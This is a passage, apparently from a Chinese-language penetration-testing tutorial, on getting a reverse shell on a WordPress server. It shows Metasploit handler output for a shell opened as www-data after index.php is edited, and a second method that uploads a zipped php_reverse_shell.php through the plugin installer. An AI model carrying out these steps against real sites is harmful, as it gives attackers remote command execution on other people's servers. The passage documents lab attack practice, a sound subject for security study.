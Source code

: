 更新 index.php 后访问 wordpress 首页即可接收到 shell

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:9999
[*] Command shell session 10 opened (192.168.0.106:9999 -> 192.168.0.106:58096) at 2024-01-22 20:54:00 +0800


Shell Banner:
Linux 2036cf3ffda3 6.5.13-orbstack-00121-ge428743e4e98 #1 SMP Wed Dec 27 10:22:46 UTC 2023 aarch64 aarch64 aarch64 GNU/Linux
 12:53:55 up  1:07,  0 users,  load average: 1.32, 1.06, 0.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

### 方法 2、zip 上传

将 php\_reverse\_shell.php 压缩为 zip 在插件安装页面上传 zip  
[![](assets/1706513536-764c3d4fd32583cc430a32b1bd7cfcbe.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928820683-3560e5f2-fcf7-4542-b23e-e7868e6ee7fb.png#averageHue=%23d9d9d9&clientId=uc39f9627-399e-4&from=paste&height=613&id=u97f34d8a&originHeight=1226&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=245185&status=done&style=none&taskId=u6d0bb817-7940-4980-9f3d-ea098eddbc7&title=&width=1547)  
建立监听 稍等片刻即可获得 shell[![](assets/1706513536-b77a485d8dd309c04806bea15eec3da0.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705928908230-f785138f-35b6-45f2-8e4c-e83a9b9cfd85.png#averageHue=%2336393f&clientId=uc39f9627-399e-4&from=paste&height=380&id=u36cc8d33&originHeight=760&originWidth=2350&originalType=binary&ratio=2&rotation=0&showTitle=false&size=253609&status=done&style=none&taskId=u42c88f76-4fc3-424e-8e1f-ecd741c0f65&title=&width=1175)
